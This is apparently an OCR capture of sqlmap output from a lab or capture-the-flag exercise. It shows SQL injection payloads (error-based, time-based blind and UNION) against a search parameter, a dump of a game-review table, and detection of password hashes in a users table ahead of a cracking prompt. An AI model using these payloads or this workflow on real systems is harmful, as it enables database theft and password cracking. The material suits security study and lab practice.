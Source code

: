 ```
    Payload: searchitem=asd' AND GTID_SUBSET(CONCAT(0x71766b7671,(SELECT (ELT(9889=9889,1))),0x717a6a7871),9889)-- LkWM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=asd' AND (SELECT 7029 FROM (SELECT(SLEEP(5)))XsZa)-- xNqa

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=asd' UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7671,0x51684e765374496678556c694b5147494d786c42476c4573746f584d575143526965614d6253496e,0x717a6a7871)#
---
[23:22:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[23:22:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[23:22:10] [INFO] fetching current database
[23:22:10] [INFO] fetching tables for database: 'db'
[23:22:10] [INFO] fetching columns for table 'post' in database 'db'
[23:22:10] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[23:22:10] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.163.58/dump/db/post.csv'
[23:22:10] [INFO] fetching columns for table 'users' in database 'db'
[23:22:10] [INFO] fetching entries for table 'users' in database 'db'
[23:22:10] [INFO] recognized possible password hashes in column 'pwd'

do you want to crack them via a dictionary-based attack? [Y/n/q]
[23:22:33] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
```